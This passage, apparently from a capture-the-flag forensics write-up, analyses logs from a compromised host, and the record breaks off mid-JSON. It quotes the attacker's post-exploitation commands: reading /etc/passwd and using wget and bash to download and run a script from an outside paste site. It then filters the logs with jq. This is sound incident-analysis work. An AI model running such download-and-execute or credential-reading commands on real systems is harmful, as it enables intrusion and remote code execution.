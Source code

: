 ![image-20240422135404187](../img/image-20240422135404187.png)

The four commands run are:

  * `whoami`
  * `cat /etc/passwd`
  * `wget https://pastes.io/raw/bx5gcr0et8`
  * `bash bx5gcr0et8`

The first is likely just testing for successful RCE. Then the next downloads a
script from `pastes.io` (Task 7) and then runs it.

#### Other Logs

I noted earlier that two logs didn’t fit the format of the alert events. I’ll
filter to those two logs with `jq`:

    
    
    oxdf@hacky$ cat meerkat-alerts.json | jq '.[] | select(.event_type != "alert")'
    {
      "_path": "ssl",
      "ts": "2023-01-19T15:39:18.512608Z",
      "uid": "ClRMBz4nXJeb8aRpG5",
      "id": {
        "orig_h": "172.31.6.44",
        "orig_p": 33220,
        "resp_h": "66.29.132.145",
        "resp_p": 443
      },
      "version": "TLSv13",
      "cipher": "TLS_AES_256_GCM_SHA384",
      "curve": "x25519",
      "server_name": "pastes.io",
      "resumed": true,
      "last_alert": null,
      "next_protocol": null,
      "established": true,
      "cert_chain_fuids": null,
      "client_cert_chain_fuids": null,